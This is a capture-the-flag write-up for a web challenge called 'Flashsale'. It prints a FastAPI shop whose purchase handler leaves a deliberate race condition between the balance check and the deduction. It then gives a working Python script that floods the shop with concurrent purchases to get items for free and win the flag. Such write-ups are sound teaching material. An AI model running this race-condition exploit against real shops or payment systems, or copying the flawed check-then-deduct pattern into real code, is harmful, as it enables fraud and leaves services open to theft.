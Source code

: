 # Flashsale

category: web

requires: race condition

we are given `main.py`:

```py
from fastapi import FastAPI, HTTPException
from pydantic import BaseModel
from typing import List
import asyncio
import uuid

app = FastAPI()

user_db = {}

shop = {"CTF Flag": 10, "White Flag": 1}
flag = open("flag.txt").read().strip()


class User(BaseModel):
    points: int = 1
    items: List[int] = []


class ItemRequest(BaseModel):
    uid: str
    item: str


@app.get("/new")
async def new():
    while True:
        new_id = uuid.uuid4()
        if str(new_id) not in user_db.keys():
            user_db[str(new_id)] = User()
            return {"uid": new_id}


@app.get("/")
@app.get("/shop")
async def list_shop_items():
    return shop


@app.post("/shop")
async def purchase_item(request: ItemRequest):
    try:
        user = user_db[request.uid]
    except KeyError:
        raise HTTPException(status_code=400, detail="Invalid User")

    try:
        price = shop[request.item]
    except KeyError:
        raise HTTPException(status_code=400, detail="Invalid Item")

    if user.points < price:
        raise HTTPException(status_code=400, detail="Insufficient Points")

    await asyncio.sleep(0.1)
    user.items.append(request.item)
    if user.points > 0:
        user.points -= price

    if request.item == "CTF Flag":
        return {"msg": flag}

    return {"msg": f"You bought a {request.item}"}


@app.post("/sell")
async def sell_item(request: ItemRequest):
    try:
        user = user_db[request.uid]
    except KeyError:
        raise HTTPException(status_code=400, detail="Invalid User")

    if request.item not in user.items:
        raise HTTPException(
            status_code=400, detail=f"No {request.item} to sell"
        )

    try:
        price = shop[request.item]
    except KeyError:
        raise HTTPException(status_code=400, detail="We don't buy such items")

    user.items.remove(request.item)
    user.points += price

    return {"msg": f"You sold a {request.item}"}
```

so this is just a shop we can post requests to, to buy and sell stuff. cool.

but when user gets initialized we only get 1 point, and we need 10 points to buy a flag :( ...

so we begin looking around for the sussy in the code and theres just a random `await asyncio.sleep(0.1)`, when buying something it checks sufficient points -> waits 0.1s -> adds it

so we can abuse race condition by just buying 10 white flags within 0.1s because it doedsnt have time to realise we have no money

also, because of `if user.points > 0: user.points -= price` we dont actually go into negative balance

so, we can just buy 10 white flags simultaneously with 1 point and then sell them all, then buy a flag. soo here

```py
import requests
import concurrent.futures

uid = requests.get("http://chals.f.cyberthon23.ctf.sg:44050/new").json()["uid"]

#buy 10 white flags

def f():
    url = "http://chals.f.cyberthon23.ctf.sg:44050/shop"
    data = {"uid": uid, "item": "White Flag"}

    response = requests.post(url, json=data)

    return response.json()

with concurrent.futures.ThreadPoolExecutor(max_workers=20) as executor:
    futures = [executor.submit(f) for _ in range(20)]
    results = [future.result() for future in concurrent.futures.as_completed(futures)]

#sell all

url = "http://chals.f.cyberthon23.ctf.sg:44050/sell"
data = {"uid": uid, "item": "White Flag"}

for i in range(10):
    response = requests.post(url, json=data)

#rebuy 1

url = "http://chals.f.cyberthon23.ctf.sg:44050/shop"
data = {"uid": uid, "item": "CTF Flag"}

response = requests.post(url, json=data)

print(response.json())


```

ok this code is damn messy bc i was too lazy to be nice with the urls and stuff but its too late to fix that
